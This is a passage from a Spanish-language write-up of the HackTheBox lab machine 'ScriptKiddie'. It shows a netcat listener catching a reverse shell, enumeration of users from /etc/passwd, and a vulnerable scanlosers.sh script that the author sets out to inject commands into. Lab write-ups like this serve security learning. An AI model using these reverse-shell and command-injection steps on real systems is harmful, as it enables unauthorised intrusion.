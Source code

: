 
![navegador2](https://raw.githubusercontent.com/z3rObyte/z3rObyte.github.io/master/assets/images/ScriptKiddie-HackTheBox/Navegador2.png)

3. Nos ponemos en escucha por el puerto que hayamos puesto para la creación del apk

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/scriptKiddie/content]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444

```

4. Por último, en el servidor web, le damos click en el botón de _Generate_. Nos debería de llegar una shell.

```bash

┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/scriptKiddie/content]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.226 33426
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ 

```

A partir de aquí podríamos ver la flag user.txt en /home/kid/user.txt

# Root

Enumerando el sistema me doy cuenta de que hay más usuarios en el sistema.

```bash
kid@scriptkiddie:~$ grep -E 1[0-9]{3}  /etc/passwd | sed s/:/\ / | awk '{print $1}'

kid
pwn

kid@scriptkiddie:~$ 
```
Miro si tienen directorio personal en /home y si lo tienen.

Accedo al directorio personal de pwn.

Ahí, me encuentro un script llamado _scanlosers.sh_

```bash

kid@scriptkiddie:/home/pwn$ ls
recon  scanlosers.sh
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
kid@scriptkiddie:/home/pwn$ 

```
Tras un buen rato, intentando entender lo que hacia el script y tratando de averiguar como inyectar comandos, llegue a la siguiente conclusión.
